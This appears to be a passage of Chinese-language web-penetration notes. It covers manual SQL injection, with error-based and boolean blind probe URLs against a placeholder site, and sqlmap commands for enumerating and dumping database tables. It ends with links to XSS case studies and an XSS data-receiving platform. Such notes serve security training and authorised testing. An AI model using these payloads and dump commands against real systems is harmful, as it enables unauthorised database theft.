 **手动注入**
- 手工注入思路

    自动化的注入神器 sqlmap 固然好用，但还是要掌握一些手工注入的思路，下面简要介绍手工注入(非盲注)的步骤。
    ```
    1.判断是否存在注入，注入是字符型还是数字型
    2.猜解SQL查询语句中的字段数
    3.确定显示的字段顺序
    4.获取当前数据库
    5.获取数据库中的表
    6.获取表中的字段名
    7.下载数据
    ```

- 显注
    1. 在参数中输入一个单引号 `’`，引起执行查询语句的语法错误，得到服务器的错误回显，从而判断服务器的数据库类型信息。
    2. 根据数据库类型构造sql注入语句。例如一个get方式的url `http://www.xxx.com/abc.asp?p=YY` 修改p的参数值 `http://www.xxx.com/abc.asp?p=YY and user>0 ` ，就可以判断是否是SQL-SERVER，而还可以得到当前连接到数据库的用户名。`http://www.xxx.com/abc.asp?p=YY&n … db_name()>0` 不仅可以判断是否是SQL-SERVER，而还可以得到当前正在使用的数据库名 。

- 盲注，大部分时候web服务器关闭了错误回显。
    1. `http://www.xxx.com/abc.asp?p=1 and 1=2` sql命令不成立，结果为空或出错 ；
    2. `http://www.xxx.com/abc.asp?p=1 and 1=1` sql命令成立，结果正常返回 。

    两个测试成功后，可以判断负载的sql被执行，存在sql注入漏洞。

**自动注入**
- sqlmap
    ```bash
    sqlmap -u URL	#判断注入
    sqlmap -u URL --current-db	 #获取当前数据库
    sqlmap -u URL -D DATABASE --tables		#获取数据库表
    sqlmap -u URL -D DATABASE -T TABLES --columns	#获取指定表的列名
    sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump		#获取指定表的列名

    sqlmap -r aaa.txt  #post型注入
    sqlmap --cookie="xxxxx" # 带 cookie 注入
    sqlmap --batch # 不要请求用户输入，使用默认行为
    ```

---

#### XSS

**案例**
- [BugBounty：Twitter 蠕虫XSS](https://xz.aliyun.com/t/5050)
- [T00LS帖子正文XSS](https://www.hackersb.cn/hacker/235.html)

**xss 平台**
- **开源平台**
    - [firesunCN/BlueLotus_XSSReceiver](https://github.com/firesunCN/BlueLotus_XSSReceiver)

- **在线平台**
    - http://xssye.com/index.php

**xss 检测环境/靶场**
- **本地靶机**
